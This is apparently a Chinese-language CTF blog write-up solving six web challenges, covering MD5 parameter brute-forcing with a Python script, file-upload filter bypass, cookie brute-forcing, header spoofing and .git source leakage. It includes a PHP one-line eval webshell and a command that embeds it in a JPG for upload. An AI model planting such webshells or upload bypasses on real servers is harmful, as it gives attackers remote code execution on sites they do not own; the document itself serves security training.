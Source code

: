 ```yaml
---
layout: post
tags: CTF
title: "帽子戏法Web训练（一）"
category: CTF
excerpt: 帽子戏法Web训练题解
---
```

> 如果觉得这篇文章写的不错，来给我[打赏鼓励](https://github.com/miaochiahao/miaochiahao.github.io/blob/master/pictures/alipay.jpg?raw=true)一下吧~我会写出更好的文章

### Burp/Python:

#### 题目
http://218.76.35.75:20115

#### WP
首先观察题目可得，三个链接点进去后是三个不同的地址，前两个的地址栏最后的参数都是MD5值，解密可得分别为bob317，sam429。因此猜测第三个参数应该为“slash+三位数”，在此采用爆破的思想。

{% highlight python %}
# -*- coding:gbk -*-
import hashlib
import urllib

for i in range(100,1000):

	src = "slash"+str(i)
#	print src
	payload = hashlib.md5()
	payload.update(src)
	payload = payload.hexdigest()
#	print payload
	file = urllib.urlopen("http://218.76.35.75:20115/index.php?page="+str(payload))
	if '\xe6\x96\x87\xe4\xbb\xb6\xe4\xb8\x8d\xe5\xad\x98\xe5\x9c\xa8\xef\xbc\x8c\xe8\xaf\xb7\xe8\xbf\x94\xe5\x9b\x9e\xe3\x80\x82' not in file.readlines():
		print "Got it! "+"The answer is "+ payload
	else:
		print "The answer is not "+ payload
{% endhighlight %}

![web1](http://oc42vgpoj.bkt.clouddn.com/web1.png)


### 文件上传/BurpSuite

#### 题目
http://218.76.35.75:20122

#### WP

题目要求上传文件，先任意上传一个文件，发现显示`only accept jpg file~`，而当上传JPG文件时，发现显示`upload success,but not php!`，也就是说我们需要把一个PHP文件，以JPG文件格式上传。（其实也有可能是把一个JPG文件在后缀名改为PHP，但考虑到实际用途可能是在网站利用文件上传漏洞上传一句话木马还是觉得前面的说法靠谱一点。）

于是Burp抓包修改之~
![web2](http://oc42vgpoj.bkt.clouddn.com/web2.png)

![web2_flag](http://oc42vgpoj.bkt.clouddn.com/web2_flag.png)

### BurpSuite

#### 题目
http://218.76.35.75:20127/

#### WP

点进去以后发现上面写着
> To the world you may be just somebody  
> im not admin~  

猜想需要将用户身份伪装成admin，于是开启Burp截获数据，发现了前面有一个User变量，后面是一个三位数，爆破之~

先用Python生成了一个三位数字典文件
![web3_dict](http://oc42vgpoj.bkt.clouddn.com/web3_dict.png)

然后用Burp加载爆破，最后结果不一样的就是我们需要的答案。

![web3_res](http://oc42vgpoj.bkt.clouddn.com/web3_res.png)

Flag如下

![web3_flag](http://oc42vgpoj.bkt.clouddn.com/web3_flag.png)
### BurpSuite

#### 题目
http://218.76.35.75:65280/

#### WP

进去以后发现了一个提交密码的页面并且提示了需要伪造IP和来源，然而密码并没有。试着提交了下，然后收集了返回的信息（Send to repeater）

发现了一个MD5形式的密码，解码为`cafe`

![web4_pass](http://oc42vgpoj.bkt.clouddn.com/web4_pass.png)

然后通过`Referer`来伪造来源，通过`X-Forwarded-For`来伪造IP

![web4_answer](http://oc42vgpoj.bkt.clouddn.com/web4_answer.png)

得到Flag

![web4_flag](http://oc42vgpoj.bkt.clouddn.com/web4_flag.png)

### BurpSuite

#### 题目
http://218.76.35.75:20103/

#### WP
发现是一个文件上传，而且上传后能读取图片，于是考虑合成图片木马

先写了一个一句话木马的PHP文件 Trojan.php

{% highlight php %}
<?php @eval($_POST['pass']);?>
{% endhighlight %}

然后选取了一张可以上传的图片 Photo.jpg  
用命令`copy Photo.jpg/b + Trojan.php/a Final.jpg`  
其中b表示二进制文件，a表示ASCII文件  
将此文件上传即可

### Git文件泄露

#### 题目
http://218.76.35.75:20104/

#### WP
> 测试了一遍以后，发现应该存在漏洞的点，均不存在漏洞的时候，就需要考虑源码泄漏了
> * robots.txt
>
> * 临时文件泄露 
>   list=[“.swp”,”.bak”,”~”,”zip”,”.tar.gz”,”.rar”,”.tar”,”.old”,”.7z”,”.gz”,”.txt”,”.inc”,”.copy”,”.src”,”.tmp”,”.orig”,”.dev”,”.idea”]
>
> * Git .git文件夹
>
> * SVN .svn
>
> * DS_store CVS                
>
>   ​                                                                                                                        by 默小西

经过提示发现是.git文件泄露，一开始用了`GitHack.py`工具，得到了PHP文件源码，但是并没有什么用。

后来发现思路错了，应该是Git版本问题，所以找到了`rip-git.pl`工具，与上面工具不同的地方在于这个还可以下载到Git配置文件

![file_rip-git](http://oc42vgpoj.bkt.clouddn.com/file_rip-git.png)

于是使用`git log`查看版本，恢复到之前的版本后发现`Hack.php`文件内出现了Flag

![file_log](http://oc42vgpoj.bkt.clouddn.com/file_log.png)

得到Flag

![file_flag](http://oc42vgpoj.bkt.clouddn.com/file_flag.png)

PS. 关于`rip-git.pl`可在[此处](https://www.secpulse.com/archives/6275.html)了解更多

